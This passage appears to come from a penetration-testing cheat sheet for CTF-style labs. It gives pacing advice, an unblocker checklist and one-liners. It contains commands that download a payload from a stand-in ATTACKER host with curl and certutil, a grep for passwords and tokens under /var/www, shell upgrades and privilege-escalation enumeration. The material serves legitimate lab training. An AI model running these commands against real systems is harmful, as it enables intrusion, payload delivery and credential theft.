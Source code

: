 ***

### 9) Time Management & Difficulty Guidance

* **Easy**: brute surface (web+SMB+FTP), one clean vuln → foothold → one privesc misconfig.
* **Medium**: minor chaining (auth bypass → file read → creds → privesc).
* **Hard**: deeper chaining, custom serialization, AD abuse, pivot.
* **Insane**: multi-stage, crypto/forensics, AD enterprise abuse (RBCD/CERT/ACL), heavy logic.

**Pacing (90–120 min target):**

* 0–15m: scans + service map
* 15–45m: pick 1–2 high-probability paths (web/SMB/AD)
* 45–75m: foothold
* 75–105m: privesc
* > 105m: re-branch, read hints, try alternate services

***

### 10) “Stuck?” — Unblocker Checklist

* Re-read nmap banners & page source.
* Try vhosts/subdomains (`gobuster vhost`).
* Switch wordlists (raft, big, language-specific).
* Change **User-Agent**/cookies; test roles (guest/user/admin).
* Fuzz parameters (`arjun`, `ffuf` for GET/POST/JSON).
* Re-check creds reuse & default creds.
* Grep recursively for secrets: `grep -r "pass\|key\|token" /var/www`
* Enumerate **every** open port (don’t tunnel vision on web).
* On Windows, think **AD**: SPNs, AS-REP, constrained delegation, certificates (ESC1-ESC8).

***

### 11) Golden One-Liners (you’ll use constantly)

**File transfer**

```bash
# Linux
curl -o /tmp/x http://ATTACKER:8000/x; chmod +x /tmp/x
# Windows
certutil -urlcache -split -f http://ATTACKER/x.exe x.exe
```

**TTY upgrade**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'; stty raw -echo; fg; export TERM=xterm
```

**Enumerate SUID/cron/caps (Linux)**

```bash
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/crontab; systemctl list-timers
```
